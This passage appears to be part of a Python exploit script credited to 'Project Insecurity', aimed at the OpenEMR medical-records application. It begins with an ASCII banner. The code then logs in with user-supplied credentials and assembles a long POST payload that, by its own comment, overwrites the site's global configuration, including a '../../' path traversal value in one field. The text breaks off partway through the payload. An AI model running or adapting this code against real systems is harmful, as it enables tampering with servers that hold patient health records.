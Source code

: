 ```python
ascii+= ">\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   <\r\n"
ascii+= "> )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  <\r\n"
ascii+= ">(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) <\r\n"
ascii+= "                                                       \r\n"
ascii+= "   ={>   P R O J E C T    I N S E C U R I T Y   <}=    \r\n"
ascii+= "                                                       \r\n"
ascii+= "         Twitter : >@Insecurity<                       \r\n"
ascii+= "         Site    : >insecurity.sh<                     \r\n"

green = "\033[1;32m"
red = "\033[1;31m"
clear = "\033[0m"

load = "[>$<] ".replace(">", green).replace("<", clear)
err = "[>-<] ".replace(">", red).replace("<", clear)
intro = ascii.replace(">", green).replace("<", clear)

print(intro)

with requests.session() as s:
    login = {"new_login_session_management": "1",
            "authProvider": "Default",
            "authUser": args.user,
            "clearPass": args.password,
            "languageChoice": "1"
            }

    print(load + "Authenticating with " + args.user + ":" + args.password)
    r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=default", data=login)
    if "login_screen.php?error=1&site=" in r.text:
        print(err + "Failed to Login.")
        sys.exit(0)

    # This will rewrite and replace your current GLOBALS, please modify this if you don't want that.
    payload = "form_save=Save&srch_desc=&form_0=main_info.php&form_1=..%2F..%2Finterface"
    payload += "%2Fmain%2Fmessages%2Fmessages.php%3Fform_active%3D1&form_2=1&form_3=tabs_"
    payload += "style_full.css&form_4=style_light.css&form_5=__default__&form_6=__default"
    payload += "__&form_7=1&form_8=0&form_9=175&form_10=OpenEMR&form_12=1&form_13=0&form_"
    payload += "14=0&form_16=1&form_21=1&form_22=1&form_23=1&form_24=1&form_25=http%3A%2F"
    payload += "%2Fopen-emr.org%2F&form_26=&form_27=20&form_28=10&form_30=0&form_31=5&for"
    payload += "m_32=0&form_37=English+%28Standard%29&form_38=1&form_42=1&form_43=1&form_"
    payload += "44=1&form_45=1&form_46=1&form_47=1&form_48=1&form_49=1&form_50=1&form_51="
    payload += "0&form_52=0&form_53=&form_54=2&form_55=.&form_56=%2C&form_57=%24&form_58="
    payload += "0&form_59=3&form_60=6%2C0&form_61=0&form_62=0&form_63=_blank&form_69=1&fo"
    payload += "rm_70=1&form_77=1&form_79=&form_80=&form_81=&form_84=1&form_85=1&form_87="
    payload += "1&form_89=1&form_90=1&form_91=1&form_92=Y1&form_93=1&form_94=2&form_95=0&"
    payload += "form_97=14&form_98=11&form_99=24&form_100=20&form_102=1&form_103=0&form_1"
    payload += "04=0&form_105=ICD10&form_106=1&form_107=1&form_112=3&form_115=1&form_116="
    payload += "&form_119=1.00&form_121=0&form_123=&form_125=30&form_126=&form_127=60&for"
    payload += "m_128=&form_129=90&form_130=&form_131=120&form_132=&form_133=150&form_134"
    payload += "=&form_135=1&form_138=1&form_139=1&form_141=1&form_142=0&form_143=localho"
    payload += "st&form_144=&form_145=&form_146=5984&form_147=&form_150=Patient+ID+card&f"
    payload += "orm_151=Patient+Photograph&form_152=Lab+Report&form_153=Lab+Report&form_1"
    payload += "55=100&form_157=8&form_158=17&form_159=15&form_160=day&form_161=1&form_16"
    payload += "2=2&form_163=1&form_164=10&form_165=10&form_166=15&form_167=20&form_168=1"
    payload += "&form_169=%23FFFFFF&form_170=%23E6E6FF&form_171=%23E6FFE6&form_172=%23FFE"
    payload += "6FF&form_173=1&form_174=0&form_176=1&form_177=1&form_178=1&form_181=1&for"
    payload += "m_182=1&form_183=1&form_184=1&form_185=D0&form_186=D0&form_187=0%3A20&for"
    payload += "m_188=0&form_190=33&form_191=0&form_194=7200&form_198=1&form_199=0&form_2"
    payload += "00=0&form_202=&form_203=&form_204=365&form_205=&form_206=1&form_208=&form"
    payload += "_210=&form_211=&form_212=&form_213=&form_214=&form_215=&form_216=SMTP&for"
    payload += "m_217=localhost&form_218=25&form_219=&form_220=&form_221=&form_222=50&for"
```